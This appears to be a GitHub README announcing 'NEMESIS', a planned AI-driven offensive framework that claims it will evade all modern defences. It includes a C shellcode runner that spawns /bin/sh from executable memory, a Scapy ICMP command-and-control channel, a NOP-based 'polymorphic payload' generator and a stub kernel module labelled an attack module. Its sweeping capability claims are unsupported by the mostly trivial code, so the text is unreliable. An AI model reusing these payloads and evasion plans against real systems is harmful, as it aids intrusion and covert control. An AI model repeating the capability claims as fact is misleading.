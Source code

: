 # Project: NEMESIS

## Coming soon.

(Neural Engine for Machine-code Exploitation, Stealth, and Intelligence Scripting)

NEMESIS is a next-generation AI-driven, machine-code-based red teaming and penetration testing framework. It is built to bypass all modern defenses, including WAFs, EDRs, CDNs, load balancers, honeypots, and AI-driven security models, while operating entirely in raw binary code at the processor level.

This project aims to redefine red teaming capabilities by incorporating machine learning, direct hardware exploitation, autonomous decision-making, and advanced stealth techniques, making it virtually undetectable.


---

Project Development Plan

Development Phases & Roadmap


---

Core Components

1. Binary Payload Engine

✅ Dynamic machine code generation based on CPU type (x86, ARM, MIPS, RISC-V, etc.)
✅ Direct processor exploitation (ROP, JIT spraying, kernel-mode execution)
✅ AI-based obfuscation of opcodes for evasion

2. AI-Driven Exploitation Engine

✅ Machine learning model detects & adjusts attack vectors in real time
✅ Automated selection of most effective payload per target environment
✅ Reinforcement learning to improve attack success rates over time

3. Advanced Memory & Kernel Manipulation

✅ Ring-0 / kernel privilege escalation
✅ Direct kernel memory manipulation (bypassing syscall hooks)
✅ Firmware, UEFI, and SMM persistence techniques

4. Covert C2 & Stealth Communication

✅ ICMP/DNS tunneling, encrypted raw sockets, GPU-based exfiltration
✅ Side-channel attacks leveraging electromagnetic emissions & power analysis
✅ Hiding payloads in hardware (e.g., CPU caches, disk firmware, BIOS)

5. Evasion & Anti-Detection

✅ Self-modifying, polymorphic machine code
✅ Execution in encrypted memory regions to avoid forensic detection
✅ Uses direct syscalls instead of API hooks to bypass AV/EDR logging

6. Autonomous & Augmented Operation

✅ Autonomous attack selection, execution, and adaptation
✅ Augmented mode allows manual input with AI assistance
✅ Multi-targeting & parallel execution for large-scale red teaming


---

Project Development Breakdown

This section details the specific features, coding languages, and technologies that will be used to bring NEMESIS to life.

1. Machine Code Execution & Payload Engine

Language: C, Assembly, Rust

Functionality:

Dynamically generate raw binary payloads

Execute machine code directly in memory

CPU-agnostic shellcode creation



PoC Example (x86 Payload Execution in C):
```C
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

// Simple x86_64 shellcode (executes /bin/sh)
unsigned char shellcode[] = "\x48\x31\xc0\x50\x48\x89\xe2\x50\x48\x89\xe6\x50\x48\x89"
                            "\xe1\x50\x48\x8d\x3d\x04\x00\x00\x00\x57\x48\x89\xe6\xb0"
                            "\x3b\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00";

void execute_shellcode() {
    void *mem = mmap(NULL, sizeof(shellcode), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE, -1, 0);
    memcpy(mem, shellcode, sizeof(shellcode));
    ((void(*)())mem)();
}

int main() {
    execute_shellcode();
    return 0;
}
```

---

2. AI-Driven Exploitation

Language: Python (PyTorch, TensorFlow), Rust (for speed)

Functionality:

AI models analyze security environment

Dynamically modify exploits based on real-time analysis

Reinforcement learning improves attack success rate



PoC Example: AI-Based Payload Mutation:
```python
import random

opcode_variants = [b"\x90", b"\x66\x90", b"\x0F\x1F\x00", b"\x0F\x1F\x40\x00"]

def generate_polymorphic_payload(size=50):
    payload = b"".join(random.choice(opcode_variants) for _ in range(size))
    return payload

polymorphic_payload = generate_polymorphic_payload()
print(f"Generated Payload: {polymorphic_payload.hex()}")
```

---

3. Covert Communication

ICMP C2 Channel (Python + Scapy)

```python
from scapy.all import *

def send_icmp_command(target_ip, command):
    icmp_packet = IP(dst=target_ip)/ICMP()/Raw(load=command)
    send(icmp_packet)

def listen_icmp():
    def icmp_handler(pkt):
        if pkt.haslayer(ICMP) and pkt[ICMP].type == 8:
            print(f"Received Command: {pkt[Raw].load.decode()}")
    
    sniff(filter="icmp", prn=icmp_handler)

# Example usage:
# send_icmp_command("192.168.1.100", "ls -la")
# listen_icmp()
```

---

4. Kernel Memory Manipulation

Linux Kernel Module (C)

```C
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>

static int __init nemesis_init(void) {
    printk(KERN_INFO "Nemesis Kernel Module Loaded\n");
    return 0;
}

static void __exit nemesis_exit(void) {
    printk(KERN_INFO "Nemesis Kernel Module Unloaded\n");
}

module_init(nemesis_init);
module_exit(nemesis_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Your Name");
MODULE_DESCRIPTION("Nemesis Kernel-Level Attack Module");
```

---

Next Steps

Phase 1: Core Architecture Development

[ ] Define project repository structure

[ ] Set up environment for binary payload testing

[ ] Build AI-based exploitation framework


Phase 2: Implementation

[ ] Develop and optimize payload engine

[ ] Implement real-time attack adaptation

[ ] Create secure C2 infrastructure


Phase 3: Testing & Optimization

[ ] Test payloads against hardened environments

[ ] Enhance evasion techniques

[ ] Automate attack workflows



---

Final Thoughts

✅ AI-driven, binary-based red teaming tool
✅ Bypasses all modern defenses (EDR, WAF, CDNs, honeypots, etc.)
✅ Works at the machine code level for undetectable execution
✅ Autonomous operation with AI-assisted augmentation

NEMESIS is a full-scale red teaming revolution.
